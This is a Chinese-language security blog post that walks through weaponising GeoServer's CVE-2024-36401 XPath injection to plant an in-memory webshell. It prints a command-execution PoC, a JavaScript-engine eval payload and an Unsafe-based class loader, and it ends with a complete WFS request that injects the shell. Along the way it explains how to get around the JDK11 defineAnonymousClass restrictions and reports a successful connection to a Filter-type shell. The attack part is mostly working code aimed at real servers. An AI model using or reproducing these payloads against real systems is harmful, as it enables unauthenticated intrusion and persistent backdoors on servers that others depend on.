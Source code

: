 # GeoServer property RCE注入内存马


<meta name="referrer" content="no-referrer" />


## 背景
GeoServer 是 OpenGIS Web 服务器规范的 J2EE 实现，利用 GeoServer 可以方便的发布地图数据，允许用户对特征数据进行更新、删除、插入操作。
在GeoServer 2.25.1， 2.24.3， 2.23.5版本及以前，未登录的任意用户可以通过构造恶意OGC请求，在默认安装的服务器中执行XPath表达式，进而利用执行Apache Commons Jxpath提供的功能执行任意代码。
from [https://github.com/vulhub/vulhub/blob/master/geoserver/CVE-2024-36401/](https://github.com/vulhub/vulhub/blob/master/geoserver/CVE-2024-36401/)
本文主要研究如何武器化利用，注入内存马。
## 注入内存马
目前市面上公开的POC主要是做到了命令执行：
```
exec(java.lang.Runtime.getRuntime(),'touch /tmp/success2')
```
Apache XPath解析表达式是支持链式调用的，是非常常见的一个表达式注入场景。虽然也可以用ClassPathXmlApplicationContext或者JNDI这种远程加载的方式去加载类，但是总归是有限制，不优雅。可以参考我之前在Kcon上讲过的议题《Java表达式攻防下的黑魔法》，可以利用Js引擎将这类链式调用的命令执行转化为完全体的任意代码执行，并且无需出网，无需额外依赖
Y4tacker也在之前的文章中提到了怎么构造Js引擎的Poc：[https://tttang.com/archive/1771/](https://tttang.com/archive/1771/)
```
eval(getEngineByName(javax.script.ScriptEngineManager.new(),'js'),'java.lang.Runtime.getRuntime().exec("open -na Calculator")')
```
那么似乎我们只需要把Js执行的Payload换成我之前议题中给出的Payload即可：
[https://github.com/yzddmr6/Java-Js-Engine-Payloads](https://github.com/yzddmr6/Java-Js-Engine-Payloads)
但是实际上实现的时候有两个坑
### 无法使用函数
首先利用JMG生成内存马注入代码。由于通过bin形式安装默认是Jetty，这里选择Jetty类型
![image.png](https://cdn.nlark.com/yuque/0/2024/png/1599908/1720079658441-b9c174e6-6745-4495-879b-2af5e7ddad4c.png#averageHue=%23e3e3e3&clientId=u1b3f6587-1bd7-4&from=paste&height=634&id=ub3a612ca&originHeight=1268&originWidth=1786&originalType=binary&ratio=2&rotation=0&showTitle=false&size=1182499&status=done&style=none&taskId=ub8f1e3c7-eedb-4188-aa90-cf588213d10&title=&width=893)
然后将code部分替换
```
function Base64DecodeToByte(str) {
    var bt;
    try {
        bt = java.lang.Class.forName("sun.misc.BASE64Decoder").newInstance().decodeBuffer(str);
    } catch (e) {
        bt = java.util.Base64.getDecoder().decode(str);
    }
    return bt;
}

function defineClass(classBytes) {
    var theUnsafe = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
    theUnsafe.setAccessible(true);
    unsafe = theUnsafe.get(null);
    unsafe.defineAnonymousClass(java.lang.Class.forName("java.lang.Class"), classBytes, null).newInstance();
}

defineClass(Base64DecodeToByte(code));

```
打这个漏洞如果返回java.lang.ClassCastException是正常的，但是出现了下面的报错，说明有问题了。
![image.png](https://cdn.nlark.com/yuque/0/2024/png/1599908/1720079785548-10251d8e-21a3-415c-94b3-ea9d4e0fd8e1.png#averageHue=%23f1eeee&clientId=u1b3f6587-1bd7-4&from=paste&height=631&id=u8b054de0&originHeight=1262&originWidth=1242&originalType=binary&ratio=2&rotation=0&showTitle=false&size=943156&status=done&style=none&taskId=ua5f676a4-123d-4be9-9ed1-b3e80ec4423&title=&width=621)
经过多次测试，发现这里的Payload不能用function的语法。十分神秘，单独测试Js引擎没有这个问题，暂时没有去深入研究原因。
![image.png](https://cdn.nlark.com/yuque/0/2024/png/1599908/1720081272312-7ef5e5fc-438b-45c0-a414-098c26d8b621.png#averageHue=%23f5f2f2&clientId=u1b3f6587-1bd7-4&from=paste&height=618&id=ue466b421&originHeight=1236&originWidth=2470&originalType=binary&ratio=2&rotation=0&showTitle=false&size=1744569&status=done&style=none&taskId=u30217090-8d83-466e-8cfe-9631ab61627&title=&width=1235)
### JDK11下的defineAnonymousClass
重新改成不带function的形式，又出现了另外一个报错
![image.png](https://cdn.nlark.com/yuque/0/2024/png/1599908/1720081971082-d2272089-ad88-4cec-8a5d-3a0e68c7685a.png#averageHue=%23f6f1f1&clientId=u1b3f6587-1bd7-4&from=paste&height=155&id=ud2addb39&originHeight=310&originWidth=2800&originalType=binary&ratio=2&rotation=0&showTitle=false&size=494235&status=done&style=none&taskId=ua30d6431-089e-4d60-897f-3aa142c8756&title=&width=1400)
发现原因是JDK>8时，defineAnonymousClass做了限制，被加载的Class要满足两个条件之一：

1. 没有包名
2. 包名跟第一个参数Class的包名一致，此处为java.lang，否则会报错

![image.png](https://cdn.nlark.com/yuque/0/2024/png/1599908/1720084947981-4e5c8150-2590-489c-a06c-adde4f2f7742.png#averageHue=%23f5f1f1&clientId=u1b3f6587-1bd7-4&from=paste&height=190&id=Yv755&originHeight=380&originWidth=2798&originalType=binary&ratio=2&rotation=0&showTitle=false&size=565637&status=done&style=none&taskId=u635a72ee-e93a-4bc4-8e03-ed4c4fb8fb8&title=&width=1399)
而JDK8及以下无此限制
![image.png](https://cdn.nlark.com/yuque/0/2024/png/1599908/1720084925910-28a05f54-e0ce-4134-a7c3-4cda752c8a20.png#averageHue=%23f6f6f6&clientId=u1b3f6587-1bd7-4&from=paste&height=119&id=OXSlW&originHeight=238&originWidth=1268&originalType=binary&ratio=2&rotation=0&showTitle=false&size=160170&status=done&style=none&taskId=u34fb45f6-b407-4db7-9c84-e4b50559b5f&title=&width=634)
正好JMG提供了修改注入器类名的功能，这里我们随便起一个java.lang.test的名字
![image.png](https://cdn.nlark.com/yuque/0/2024/png/1599908/1720082225134-4aec431e-4a24-4760-9a88-00670cd2f898.png#averageHue=%23e3e3e3&clientId=u1b3f6587-1bd7-4&from=paste&height=634&id=u1ac1146f&originHeight=1268&originWidth=1786&originalType=binary&ratio=2&rotation=0&showTitle=false&size=1177548&status=done&style=none&taskId=u591c7976-665e-459d-93d2-a0f649f190a&title=&width=893)
终于不报错了，注入成功
![image.png](https://cdn.nlark.com/yuque/0/2024/png/1599908/1720082281201-1f7ee460-1207-4d63-9c1e-0eeb192e4f8b.png#averageHue=%23ebeaea&clientId=u1b3f6587-1bd7-4&from=paste&height=690&id=ue91a3527&originHeight=1380&originWidth=2466&originalType=binary&ratio=2&rotation=0&showTitle=false&size=1971462&status=done&style=none&taskId=uc6caa90e-bc3c-4d9c-8b8e-328d6fbb838&title=&width=1233)
连接的时候发现JMG的Jetty-AntSword-Listener类型似乎有BUG，打进去连接不上
随后换成Filter连接成功
![image.png](https://cdn.nlark.com/yuque/0/2024/png/1599908/1720082607075-7daa0b98-ec93-46d0-a845-86813365752a.png#averageHue=%23efefef&clientId=u1b3f6587-1bd7-4&from=paste&height=441&id=u60aec003&originHeight=882&originWidth=1558&originalType=binary&ratio=2&rotation=0&showTitle=false&size=668762&status=done&style=none&taskId=u0249f25a-ea67-4f7b-b7a0-5fcda04444b&title=&width=779)

注入内存马Payload
```
<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>eval(getEngineByName(javax.script.ScriptEngineManager.new(),'js'),'
var str="";
var bt;
try {
    bt = java.lang.Class.forName("sun.misc.BASE64Decoder").newInstance().decodeBuffer(str);
} catch (e) {
    bt = java.util.Base64.getDecoder().decode(str);
}
var theUnsafe = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
theUnsafe.setAccessible(true);
unsafe = theUnsafe.get(null);
unsafe.defineAnonymousClass(java.lang.Class.forName("java.lang.Class"), bt, null).newInstance();
')</wfs:valueReference>
</wfs:GetPropertyValue>
```

